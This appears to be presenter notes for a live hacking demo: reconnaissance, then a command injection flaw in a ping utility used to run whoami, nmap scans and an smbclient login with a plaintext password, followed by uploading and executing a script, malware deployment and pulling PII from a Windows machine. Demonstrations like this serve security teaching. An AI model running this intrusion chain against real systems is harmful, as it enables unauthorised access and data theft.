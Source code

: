 Command Injection Demo:

Academic:
    Dig through DNS\
    Port scan IPs\
    Interrogate IP\
	HTTP Watch/Fiddler/Postman/Wireshark\
	Headers can indicate the stack\
 \
Commands:\
    Login: wier credentials to connect.hackysock.com\
    Browse site… Exploratory work\
    Over to the ping utility\
        note the command injection flaw.\
	    whoami\
	    pwd\
	    cd ../../\
	    ls\
	    ifconfig -a | grep netmask\
	    which nmap\
	    nmap -sP 192.168.122.1/24\
	    namp -p 135 192.168.122.7\
	    smbclient -N '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 -c ls
	
Find Upload section:\
    Upload file: Note the path description\
	Figure out where uploads go\
	Upload script\
	CHMOD script\
		chmod 775 ../../hackable/uploads/pull_scripts.sh\
	Execute script\
		../../hackable/uploads/pull_scripts.sh\
	Show all the scripts that were pulled down from GitHub\

* It should be apparent at this point that I own the box so…

Drop to shell to show rest of demo and malware deployment.\
	Execute pii script\
	Show pii data pulled from windows machine\
	

	

